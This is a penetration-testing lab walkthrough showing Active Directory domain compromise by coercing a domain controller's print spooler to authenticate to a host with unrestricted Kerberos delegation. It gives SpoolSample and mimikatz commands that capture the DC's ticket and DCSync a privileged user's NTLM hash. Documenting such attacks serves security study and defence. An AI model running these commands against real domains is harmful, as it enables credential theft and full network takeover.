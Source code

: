 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller (or any other host to be fair) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled.
  * This is done via RPC API [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled (attacker, server)
* dc01 - domain controller running a print service (victim, target)

We can check if a spool service is running on a remote host like so:

```
ls \\dc01\pipe\spoolss
```

![](<../../.gitbook/assets/image (503).png>)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](<../../.gitbook/assets/image (504).png>)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin\_), we execute it with two arguments `target` and `server` (DC with spoolss running on it):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved - get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}
